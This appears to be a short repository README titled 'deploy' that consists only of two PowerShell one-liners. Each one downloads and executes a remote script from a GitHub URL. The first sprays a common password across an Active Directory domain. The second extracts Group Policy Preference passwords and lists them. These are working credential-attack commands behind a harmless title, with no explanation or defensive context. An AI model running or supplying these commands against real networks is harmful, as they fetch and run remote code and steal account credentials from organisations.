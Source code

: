 # deploy

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/launchsilo/deploy/main/DomainSpray.ps1') ; Invoke-DomainPasswordSpray -Password Password!1

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/launchsilo/deploy/main/Get-GPPPassword.ps1') ; Get-GPPPassword | ForEach-Object {$_.passwords} | Sort-Object -Uniq#
